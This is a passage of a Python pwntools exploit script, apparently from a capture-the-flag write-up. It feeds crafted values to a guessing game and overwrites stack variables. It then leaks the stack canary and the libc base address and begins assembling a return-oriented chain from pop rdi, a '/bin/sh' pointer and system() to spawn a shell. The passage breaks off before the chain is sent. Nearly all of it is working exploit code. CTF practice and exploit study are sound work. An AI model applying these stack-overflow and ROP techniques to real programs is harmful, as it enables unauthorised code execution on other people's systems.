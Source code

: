 ```python exp.py
lucky_byte1 = str(int(lucky_str[6:8:], 16))
lucky_byte2 = str(int(lucky_str[4:6:], 16))
lucky_byte3 = str(int(lucky_str[2:4:], 16))
lucky_byte4 = str(int(lucky_str[0:2:], 16))

log.success("sending luck_number: "+str(lucky_number))
log.success(hex(seed)+" + "+hex(lucky_number)+" = "+hex(lucky_number+seed))
r.send(str(lucky_number)+"\n")

# 0~15 to pass the first 16 numbers
for i in range(16):
    print r.recvuntil(": ")
    log.success("sending: "+str(guess[i]))
    r.send(str(guess[i])+"\n")

payloads = ["44",#17 byte, v8
            "0",#padding
            "0",#padding
            "0",#padding
            lucky_byte1,   # lucky number
            lucky_byte2,   # lucky number
            lucky_byte3,   # lucky number
            lucky_byte4,   # lucky number
           "1", # v10 for win
            "0",#padding
            "0",#padding
            "0",#padding
           "17", # i
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # v12_1
            "0",#padding
            "0",#padding
            "0",#padding
           "0", # v12_2
            "0",#padding
            "0",#padding
            "0",#padding
            "8", #name_buf 0x08
            "49", #name_buf 0x31
            "96", #name_buf 0x60
            "0", #name_buf 0x00
           ]

payloads[0] = str(len(payloads) + 16)
# sending payload
for payload in payloads:
    print r.recvuntil(": ")
    log.success("sending: "+payload)
    r.send(payload+"\n")

s = r.recvuntil("BBBB")
canary = s.split(".")[0]
canary = "0x" + canary[canary.index("0x")+2::].rjust(16, "0")
libc_base = int(s.split(".")[1], 16) - 0xfd - 0x1edb0
log.success("canary: "+canary)
log.success("libc_base: "+hex(libc_base))

libc.address += libc_base
pop_rdi_ret = libc_base + 0x2024b # pop rdi, ret
bin_sh = libc_base + 0x14bc23     # pointer to /bin/sh
system_addr = libc.symbols['system']
```